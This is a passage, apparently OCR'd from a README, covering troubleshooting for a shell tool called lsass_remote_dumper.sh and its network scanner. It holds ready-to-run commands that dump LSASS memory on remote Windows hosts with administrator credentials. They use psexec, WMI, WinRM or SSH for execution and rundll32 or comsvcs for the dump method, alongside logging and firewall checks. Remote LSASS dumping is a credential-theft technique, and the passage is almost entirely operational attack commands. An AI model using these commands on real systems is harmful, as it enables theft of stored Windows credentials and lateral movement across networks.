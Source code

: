 # Test with different execution method
./lsass_remote_dumper.sh -r -t 192.168.1.100 -u admin -p "password" \
  -x psexec -m rundll32


Debugging Remote Operations

Enable Verbose Logging

Bash


# Enable detailed logging
./lsass_remote_dumper.sh -r -t target -u admin -p "password" \
  -x wmi -m comsvcs -l -v

# Check log files
tail -f ./dumps/lsass_remote_dumper.log

# Debug network scanner
./lsass_network_scanner.sh -t target -s full -v


Network Troubleshooting

Bash


# Check firewall rules
# netsh advfirewall firewall show rule name=all | findstr 135
# netsh advfirewall firewall show rule name=all | findstr 5985

# Test with different ports
./lsass_remote_dumper.sh -r -t target:5986 -u admin -p "password" -x winrm

# Use alternative execution methods
./lsass_remote_dumper.sh -r -t target -u admin -p "password" -x ssh


Performance Optimization

Timeout Configuration
